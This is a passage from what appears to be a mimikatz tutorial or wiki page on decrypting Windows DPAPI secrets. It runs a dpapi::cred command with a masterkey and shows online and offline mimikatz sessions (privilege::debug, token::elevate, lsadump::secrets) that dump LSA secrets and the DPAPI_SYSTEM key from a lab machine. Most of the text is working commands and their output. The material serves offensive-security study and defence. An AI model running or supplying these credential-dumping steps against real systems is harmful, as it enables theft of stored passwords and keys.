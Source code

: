 ![Doge](https://i.imgflip.com/1h19rs.jpg)

But you can, of course, use the masterkey by yourself: `dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C /masterkey:0a942e9dfc934246081ed23f371c42fc0f9fcb6dcd3285ac210cd64c26dec3adc120eee7abdd56c68acd051850fd923380bc2e3a1558354eac53c2da6e73bbce`

### _I'm feeling unlucky_ or _Let's make it "offline"_
Maybe no key in cache, or just access to files offline  
You need `DPAPI_SYSTEM`, user part, to decrypt the masterkey file on the disk to decrypt secret. You can make it online, or offline, both works:

#### Online:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : AUTORITE NT\Système

516     29627           AUTORITE NT\Système     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : 800606       LAB\Administrateur      S-1-5-21-412031729-2859336904-2073880905-500    (17g,24p)
Primary
 * Thread Token  : 802683       AUTORITE NT\Système     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
Domain : PC-1
SysKey : d26ea7aef1e3896f240050a5890bfaba

Local name : PC-1 ( S-1-5-21-618257482-3585752924-2892384645 )
Domain name : LAB ( S-1-5-21-412031729-2859336904-2073880905 )
Domain FQDN : lab.local

Policy subsystem is : 1.14
LSA Key(s) : 1, default {6c64c5e5-041d-37d7-0fe0-315eb212f3cc}
  [00] {6c64c5e5-041d-37d7-0fe0-315eb212f3cc} 354c1f19ceecc072795a1ba4baa860adac8102c8597ecb882180c94e0176d932
[...]
Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 eb fd fc 4e f8 cd e8 38 3a e2 98 38 cf c5 bb 75 ba 29 46 55 c8 9e 39 64 4a 0b 05 aa 3b 39 39 c8 32 02 82 f8 57 d9 18 2c
    full: ebfdfc4ef8cde8383ae29838cfc5bb75ba294655c89e39644a0b05aa3b3939c8320282f857d9182c
    m/u : ebfdfc4ef8cde8383ae29838cfc5bb75ba294655 / c89e39644a0b05aa3b3939c8320282f857d9182c
old/hex :[...]
```
#### Offline
```
mimikatz # lsadump::secrets /system:c:\backup\SYSTEM /security:c:\backup\SECURITY
Domain : PC-1
SysKey : d26ea7aef1e3896f240050a5890bfaba

Local name : PC-1 ( S-1-5-21-618257482-3585752924-2892384645 )
Domain name : LAB ( S-1-5-21-412031729-2859336904-2073880905 )
Domain FQDN : lab.local

Policy subsystem is : 1.14
LSA Key(s) : 1, default {6c64c5e5-041d-37d7-0fe0-315eb212f3cc}
```